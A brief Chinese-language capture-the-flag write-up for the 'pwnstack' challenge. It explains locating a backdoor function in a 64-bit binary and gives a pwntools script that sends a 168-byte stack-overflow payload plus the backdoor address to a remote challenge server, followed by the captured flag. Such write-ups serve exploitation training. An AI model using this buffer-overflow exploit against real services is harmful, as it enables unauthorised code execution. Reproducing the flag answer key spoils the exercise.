


# Pwn
## pwnstack

下载附件，里面有个文件叫pwn2，是64位无壳的。用ida64打开，找到vul()和backdoor()函数。



在kali中用objdump可以知道backdoor函数的地址，并写出脚本。



```python
from pwn import *

backdoor_addr = 0x400762
payload = b'a'*168+p64(backdoor_addr)
p = remote('61.147.171.105', 65153)
p.sendline(payload)
p.interactive()
```

得到flag：cyberpeace{da27878f542ca6af0d922f3b72c015a4}